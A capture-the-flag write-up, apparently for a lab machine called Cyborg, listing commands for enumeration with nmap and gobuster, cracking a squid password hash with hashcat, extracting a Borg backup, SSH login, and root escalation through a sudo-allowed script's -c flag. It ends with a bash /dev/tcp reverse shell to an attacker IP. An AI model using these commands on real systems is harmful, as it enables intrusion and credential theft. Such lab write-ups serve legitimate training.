

# Summary

Enumerate using CLI<br>
Explore the website<br>
Get the payload<br>
Use borg to inflate a backup archive<br>
Use hashid to identy type of hash<br>
Use hashcat to decrypt a hash<br>
Reverse shell with nc<br>


### Enumerate
```bash
export IP=10.10.76.200
nmap -A $IP scans/nmap.log
gobuster dir -u $IP -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt | tee scans/gobuster.log
```

Explore the paths obtained with gobuster. Get the loot<br>

```bash
wget http://$IP/admin/archive.tar
tar -xvf archive.tar
wget http://$IP/etc/squid/passwd
```
The contents of the file **passwd** look a lot like a hash. Move into `../Cyborg/home/field/dev/final_archive/data/0` <br>
Identify the types of files <br>

```bash
file filename
binwalk filename
```

The hash obteined from `wget http://$IP/etc/squid/passwd` comes in the form of XXXX, remove the user and leave just the hash, then pass it to hashcat with this `hashcat -a 0 -m 1600 passwd /usr/share/wordlists/rockyou.txt` <br>

> Password: squidward<br>

It is a BORG Backup Archive, one of the parents directories has to be the true archive. In this case is `/final_archive` <br>

```bash
borg list final_archive 						#See the name of the repository, Use squidward as password
borg extract final_archive::music_archive		#Extract the contents, Use squidward as password
```

Explore `~/THM/Cyborg/home/field/dev/home/alex` 

Find the files
`find . -name *.txt 2>/dev/null`



> Username: alex <br>
> Password: S3cretP@s3<br>

Connect to ssh using the credentials obtained
```bash
ssh alex@$IP				#Password S3cretP@s3
```

Explore and get the user flag<br>

Priv Esc
```bash
sudo -l 		#S3cretP@s3
```


Read the file<br>
```bash
nano /etc/mp3backups/backup.sh
```

It is possible to execute the script with root privileges and provide a flag **-c** to pass a command to it, this command will be executed with root<br>
```bash
sudo /etc/mp3backups/backup.sh -c '/bin/bash'
```

Now we are root, but the terminal is not interactive, lets fix that with a reverse shell<br>

Set up a listener<br>
```bash
listen 9000  #listen is alias for 'rnlw nc -lnvp '
```

Trigger the reverse shell <br>
```bash
bash -i >& /dev/tcp/10.6.73.147/9000 0>&1
```


Stabilize it if you want, then get the root flag<br>
```bash
find / -name root.txt* 2>/dev/null
cat /root/root.txt
```
